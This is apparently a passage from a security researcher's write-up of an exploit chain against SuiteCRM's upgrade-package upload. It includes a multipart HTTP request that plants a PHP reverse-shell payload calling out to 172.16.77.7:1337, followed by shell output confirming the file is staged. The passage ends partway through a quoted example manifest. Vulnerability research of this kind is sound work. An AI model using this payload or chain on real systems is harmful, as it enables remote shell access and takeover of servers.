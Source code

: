 ```HTTP

upload
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip"; filename="evilFile"
Content-Type: application/zip

<?php $sock=fsockopen("172.16.77.7",1337);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip_escaped"

C%3A%5Cfakepath%5Cevil.zip
------WebKitFormBoundary9VoKZp0SUAVBNYA5--

```

After sending the request, we can check the filesystem and see that our malicious file has been successfully staged at a known location on the filesystem.
```
-rw-r--r--  1 www-data www-data  113 Aug  6 22:30 evilFile

cat upload/evilFile 
<?php\n$sock=fsockopen("172.16.77.7",1337);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);\n?>
```

We now have the ability to write arbitrary files with arbitrary content at a known location on the file system. This might seem minor as we don't yet have an ability to detonate our malicious payload. However, this step is a critical step in building our larger exploit chain and puts us in a position which the maintainers likely did not anticipate.

Next, we need to find a way to get the application to run our payload. While searching for something to leverage, I decided to do some further research on the upgrade package process and more specifically the purpose of the manifest.php file that the application was expecting in the zip file.

After researching this functionality, I found the following information on the SuiteCRM developer documentation of particular interest: https://docs.suitecrm.com/developer/module-installer/

```
At the minimum a package is a zip file that contains a `manifest.php` file in it’s root. The manifest file is responsible for providing information about the installer as well as providing information on how to install the package.
```

An example manifest file
```php
$manifest = array(
   'name' => 'My First Package',
   'description' => 'This is a simple package example manifest file',
   'version' => '1.5',
   'author' => 'Jim Mackin',
   'readme' => 'readme.txt',
   'acceptable_sugar_flavors' => array('CE'),
   'acceptable_sugar_versions' => array(
     'exact_matches' => array(),
     'regex_matches' => array('6\.5\.[0-9]$'),
   ),
   'copy_files' => array (
     'from_dir' => '<basepath>/custom/',
     'to_dir' => 'custom',
     'force_copy' => array (),
   ),
   'dependencies' => array(
     array(
       'id_name' => 'example_dependency_package',
       'version' => '2.4',
     ),
```